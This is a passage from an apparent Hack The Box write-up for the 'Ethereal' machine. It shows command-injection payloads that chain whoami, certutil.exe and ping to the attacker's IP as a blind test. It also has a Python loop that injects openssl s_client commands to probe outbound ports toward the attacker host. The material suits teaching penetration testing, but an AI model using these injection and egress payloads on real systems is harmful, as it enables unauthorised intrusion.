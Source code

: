 Ok, so the webserver on port 80 is not running with the same user as port 8080.

After wasting a few more hours, I realized that AppLocker isn't enabled for user `IIS`. I suspected that the outbound ports on the box would be firewalled so I used a boolean blind approach to test various commands. The following payload will ping my machine only if the preceding command has been successfully executed: `127.0.0.1 && whoami && ping 10.10.14.23`.

To test this, I first tried a command that I know will work: `127.0.0.1 && whoami && ping 10.10.14.23`

```bash
root@kali:~# tcpdump -nni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:02:19.817657 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 63, length 40
21:02:19.817712 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 63, length 40
21:02:20.777578 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 64, length 40
21:02:20.777608 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 64, length 40
21:02:21.768882 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 65, length 40
21:02:21.768933 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 65, length 40
21:02:22.919376 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 66, length 40
21:02:22.919408 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 66, length 40
```

We are getting pinged so it means the command was executed correctly.

Next, our target is `certutil.exe` so we can use it to download files.

First, I tested locally on my Windows machine if running certutil.exe without parameters returns a successful error code. I wanted to do this because I suspected there was an outbound firewall blocking some most ports.

![](/assets/images/htb-writeup-ethereal/boolean1.png)

Then I verified that certutil.exe is not blocked now that we are running as IIS: `127.0.0.1 && certutil.exe && ping 10.10.14.23`.

```bash
21:06:30.214884 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 71, length 40
21:06:30.214912 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 71, length 40
21:06:31.286151 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 72, length 40
21:06:31.286182 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 72, length 40
```

We're getting pinged so the `certutil.exe` command didn't error out. 

While previously looking at the files and programs on the box, I found `c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe"` installed (and it wasn't AppLocked for `alan` user either), so I used this to establish outbound sockets.

I modified the existing script to scan for the first 200 ports:

```python 
    for i in range(1, 200):
        time.sleep(2.5)
        cmd = "\"c:\\program files (x86)\\OpenSSL-v1.1.0\\bin\\openssl.exe\" s_client -host 10.10.14.23 -port {}".format(str(i))
        print(cmd)
        send(cmd, 1)
```
